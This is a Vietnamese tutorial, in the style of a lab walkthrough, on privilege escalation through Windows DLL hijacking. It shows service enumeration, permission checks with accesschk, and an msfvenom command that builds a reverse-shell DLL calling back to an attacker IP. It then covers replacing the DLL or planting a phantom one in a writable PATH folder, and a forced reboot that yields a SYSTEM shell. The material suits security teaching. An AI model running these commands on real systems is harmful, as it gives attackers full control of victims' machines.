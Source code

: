 DLL Hijacking

DLL (Dynamic Link Library) là một thư viện chứa mã và dữ liệu có thể được nhiều chương trình sử dụng cùng một lúc. Về cơ bản, DLL là một tập hợp các hướng dẫn tồn tại bên ngoài mã trong một tệp thực thi nhưng được yêu cầu để tệp thực thi đó hoạt động.
Khi một chương trình được viết, người ta thường thấy rằng các tệp DLL đang được tải bằng cách không sử dụng đường dẫn tuyệt đối của chúng. Điều này có nghĩa là thay vì đặt C:\Windows\System32\important.dll vào mã để lấy DLL trực tiếp từ thư mục System32, các lập trình viên sẽ chỉ đặt 'important.dll' và cho phép Windows tự tìm thấy DLL. Điều này đặc biệt đúng với các chương trình của bên thứ ba.
Khi chúng tôi KHÔNG chỉ định đường dẫn đầy đủ của thư viện mà chúng tôi muốn tải, hệ thống sẽ sử dụng thứ tự tìm kiếm được xác định trước để cố gắng tìm nó, như sau:

Thứ tự tìm kiếm được xác định trước bắt đầu bằng Thư mục của Ứng dụng; tuy nhiên, “tìm kiếm trước” đã được liệt kê ở trên để cho thấy rằng nếu tên của DLL KHÔNG phải là DLL đã được tải trong bộ nhớ và KHÔNG phải là DLL đã biết thì đó là khi tìm kiếm bắt đầu tại Thư mục của Ứng dụng.

DLL Hijacking – DLL Replacement

Việc thay thế DLL được khai thác giống như cách chúng tôi khai thác các quyền của tệp dịch vụ yếu, điểm khác biệt duy nhất là thay vì thay thế tệp thực thi dịch vụ, chúng tôi sẽ thay thế một tệp DLL (hoặc đặt một tệp bị thiếu) mà tệp thực thi gọi trong khi thực thi.
Trong ví dụ này, chúng tôi vừa có được chỗ đứng trên nạn nhân với tư cách là người dùng alice sau khi chúng tôi tìm thấy thông tin xác thực của cô ấy trong thư mục chia sẻ.

Nâng cấp lên PowerShell bằng lệnh powershell -ep bypass

Hunting for Non-Standard Services

Để bắt đầu, chúng tôi sẽ cần tìm một dịch vụ đang chạy từ một vị trí không chuẩn nơi chúng tôi có thể có quyền ghi.
Các dịch vụ thực thi từ các vị trí không chuẩn sẽ mang đến cho chúng tôi cơ hội tốt nhất để tìm ra các quyền dịch vụ yếu.
Từ PowerShell, chúng tôi có thể sử dụng lệnh wmic sau để tìm bất kỳ dịch vụ nào đang thực thi từ các vị trí không chuẩn:

```
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where { $_.PathName -notlike "C:\Windows*" } | select Name,DisplayName,StartMode,PathName
```

Ở đây chúng ta có thể thấy rằng dllservice nổi bật vì những lý do rõ ràng. Tuy nhiên, ngay cả khi dịch vụ được gọi bằng tên khác, bằng cách nhìn vào PathName, chúng ta có thể thấy rằng dịch vụ này có thể nằm trong một thư mục có thể ghi. Ngoài ra, ở đây chúng ta có thể thấy rằng dịch vụ này là dịch vụ tự động khởi động, có nghĩa là chúng ta có thể kích hoạt khởi động lại dịch vụ này nếu có thể khởi động lại máy.

Hunting for Weak Service Folder Permissions

tôi có thể sử dụng một công cụ có tên Accesschk từ Bộ công cụ Sysiternals để liệt kê các quyền của tệp và thư mục.
Với accesschk trên hệ thống, chúng ta muốn liệt kê các quyền trên thư mục dịch vụ, như sau:

```
.\accesschk64.exe -wvud "C:\Program Files\dllservice" -accepteula
```

Ở đây chúng ta có thể thấy rằng Người dùng được xác thực có FILE_ALL_ACCESS trên thư mục này, nghĩa là tất cả người dùng đều có Toàn quyền kiểm soát tại đây.
Bây giờ, khi kiểm tra nội dung của thư mục, chúng ta có thể thấy rằng có cả tệp thực thi và tệp DLL, chúng ta có thể giả định một cách an toàn rằng tệp DLL được tệp thực thi tải khi dịch vụ khởi động.

Sử dụng Procmon để hiểu cách thực thi tải DLL

Để sử dụng procmon.exe, chúng tôi cần đăng nhập với tư cách Quản trị viên và có quyền truy cập GUI. Vì lý do này, đây chỉ là bằng chứng về khái niệm cho thấy cách các tệp DLL được tải vào một quy trình.
Sau khi đăng nhập vào máy với tư cách Administrator, chúng ta cần chuyển bản sao procmon64.exe vào máy nạn nhân. Sau khi chuyển, hãy chạy Procmon với tư cách quản trị viên và chấp nhận thỏa thuận EULA.

Khi Procmon đang chạy, chúng ta cần tạo một vài bộ lọc bằng cách nhấn CTRL + L :
Đường dẫn – kết thúc bằng – .dll

Người dùng – là – NT AUTHORITY\SYSTEM

Tên quy trình – là – dllservice.exe

Bây giờ chúng ta sẽ kích hoạt ba bộ lọc sau:

Bây giờ, khi chúng tôi dừng và khởi động dịch vụ, chúng tôi thấy rằng hijackme.dll tải thành công từ thư mục ứng dụng, như dự định.

Bây giờ chúng ta đã thấy POC của DLL tải thành công từ thư mục ứng dụng

Tạo một DLL độc hại bằng msfvenom

Vì chúng tôi đã tìm thấy một dịch vụ dễ bị tấn công tải một DLL được tìm thấy trong thư mục ứng dụng, nên chúng tôi có thể tiến hành tạo một DLL độc hại để thay thế một DLL hợp pháp và nhận shell HỆ THỐNG.
Từ máy tấn công của chúng tôi, chúng tôi có thể sử dụng lệnh msfvenom sau để tạo một DLL độc hại:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f dll -o hijackme.dll
```

Với DLL độc hại đã sẵn sàng hoạt động, chúng ta cần chuyển nó đến nạn nhân từ shell đảo ngược của chúng ta dưới dạng alice.

Chiếm quyền điều khiển DLL dịch vụ để lấy SYSTEM Shell

Trở lại shell của chúng tôi với tư cách là Alice, chúng tôi đã chuyển DLL độc hại và chúng tôi đã sẵn sàng thiết lập việc khai thác.

Tiếp theo, chúng ta cần tạo một bản sao lưu của 'hijackme.dll' ban đầu và sau đó di chuyển tệp độc hại vào thư mục ứng dụng.

```
mv "C:\Program Files\dllservice\hijackme.dll" "C:\Program Files\dllservice\hijackme.dll.bak"

mv .\hijackme.dll "C:\Program Files\dllservice"
```

Bây giờ chúng ta đã thả DLL độc hại vào thư mục, tất cả những gì còn lại cần làm là khởi động trình nghe netcat trên máy tấn công qua cổng 443 và sau đó sử dụng lệnh sau để khởi động lại máy nạn nhân:

```
shutdown /r /t 0 /f
```

Chúng tôi khởi động ra khỏi shell, điều này cho thấy quá trình khởi động lại đã thành công; và sau khoảng 20 giây, quay lại trình nghe của chúng tôi, chúng tôi nhận được shell HỆ THỐNG!

Để tính năng này hoạt động, chúng ta cần thêm một mục tùy chỉnh vào biến PATH trỏ đến thư mục mà chúng ta có quyền ghi.
Khi một số ứng dụng của bên thứ ba được cài đặt, chúng sẽ cập nhật biến PATH với thư mục mà ứng dụng thực thi từ đó. Nếu may mắn, chúng ta có thể thấy rằng mình có quyền ghi vào thư mục này. Ví dụ: nếu ứng dụng tạo thư mục trong thư mục C:\ thì theo mặc định, bất kỳ người dùng chuẩn nào cũng có (M) Quyền sửa đổi trên thư mục.
Trong ví dụ này, chúng ta sẽ thấy rằng thư mục dllservice chỉ chứa tệp thực thi cho dịch vụ và DLL không có trong thư mục ứng dụng như trước đây.

Ngoài ra, chúng tôi không có quyền ghi vào thư mục dllservice với tư cách là người dùng chuẩn.

Liệt kê các thư mục trong biến PATH

Quay lại shell của chúng ta với tư cách là Alice, chúng ta có thể kiểm tra các thư mục trong biến PATH bằng lệnh sau từ lời nhắc PowerShell:

```
$Env:Path
```

Để thực hiện tương tự từ dấu nhắc cmd.exe, chúng tôi sẽ sử dụng lệnh sau:

```
echo %PATH%
```

BÙM! Ở đây chúng ta có thể thấy một thư mục xuất hiện dưới dạng thư mục không mặc định trong PATH; và thậm chí tốt hơn nữa, thư mục này nằm ở C:\ vì vậy chúng ta phải có quyền ghi ở đây theo mặc định, điều này chúng ta có thể nhanh chóng xác nhận bằng accesschk .

```
.\accesschk64.exe -wvud "C:\customapp" -accepteula
```

Và đúng như chúng tôi dự đoán, vì thư mục này nằm trong C:\ nên người dùng tiêu chuẩn có thể ghi vào thư mục này!
Ngoài ra, có một thủ thuật mà chúng ta có thể sử dụng để chạy vòng lặp for nhằm lặp lại từng thư mục trong biến PATH trong khi chạy icacls đối với từng thư mục đó để xác định xem chúng ta có quyền ghi hay không. Theo mặc định, các thư mục trong biến PATH đều không thể ghi được đối với người dùng chuẩn; tuy nhiên, bất kỳ thư mục tùy chỉnh nào cũng có thể ghi được hoặc trong một số trường hợp rất hiếm, người dùng có thể đã được cấp quyền ghi vào một trong các thư mục mặc định.

```
for %A in ("%path:;=";"%") do ( cmd.exe /c icacls "%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )
```

Ở đây chúng ta có thể thấy rằng thư mục duy nhất mà chúng ta có quyền ghi (sửa đổi) trong PATH là thư mục C:\customapp .
Vậy điều này giúp ích như thế nào khi chúng ta khởi động dllservice, nằm ở C:\Program Files\dllservice và không liên quan gì đến thư mục customapp ?
Hãy cùng sử dụng Procmon lần nữa để tìm hiểu nhé!

Sử dụng Procmon để hiểu cách các tệp thực thi tìm kiếm các tệp DLL bị thiếu

Để thấy điều này hoạt động và hiểu rõ hơn về nó, chúng ta sẽ quay lại phiên GUI của Quản trị viên và chạy lại Procmon.
Lần này, chúng ta không có DLL trong thư mục của ứng dụng nên sẽ cần thêm một bộ lọc khác để xem chương trình xử lý một DLL bị thiếu như thế nào.
Kết quả – Chứa – KHÔNG TÌM THẤY

Bây giờ chúng ta sẽ có bốn thiết lập bộ lọc sau:

Lần này khi dừng và khởi động dịch vụ, trước tiên chúng ta sẽ thấy hijackme.dll cố tải từ thư mục Ứng dụng. Khi không tìm thấy DLL, nó sẽ tiến hành thực hiện thứ tự tìm kiếm được xác định trước. Khi nó đi qua các thư mục C:\Windows\*, nó bắt đầu kiểm tra biến %PATH% nơi nó sẽ cố tải DLL từ C:\customapp .

Tuyệt vời! Ở đây, chúng ta có thể thấy rằng ứng dụng đã cố tải DLL từ thư mục ứng dụng tùy chỉnh trong quá trình tìm kiếm vì nó nằm trong %PATH% của chúng ta. Điều này có nghĩa là chúng tôi có thể đặt phiên bản độc hại của hijckme.dll vào thư mục đó và khởi động lại dịch vụ. Sau khi thực hiện xong bước kiểm tra đó, nó sẽ “tìm DLL” và thực thi tải trọng của chúng tôi và cung cấp cho chúng tôi shell HỆ THỐNG.

Bỏ Phantom DLL để lấy SYSTEM Shell

Quay lại shell người dùng tiêu chuẩn của chúng tôi với tư cách là người dùng alice, giờ đây chúng tôi có thể khai thác dịch vụ này để có được shell HỆ THỐNG.
Vì chúng tôi đã tạo tệp DLL độc hại trước đó nên chúng tôi chỉ cần sao chép nó vào thư mục ứng dụng tùy chỉnh rồi khởi động lại máy.

Bây giờ tệp đã được sao chép vào thư mục customapp, bây giờ tất cả những gì chúng ta cần làm là khởi động trình nghe netcat trên cổng 443 rồi khởi động lại máy, giống như lần trước.

```
shutdown /r /t 0 /f
```

Chúng tôi lại khởi động ra khỏi shell và sau khoảng 20 giây, quay lại trình nghe, chúng tôi có shell HỆ THỐNG!
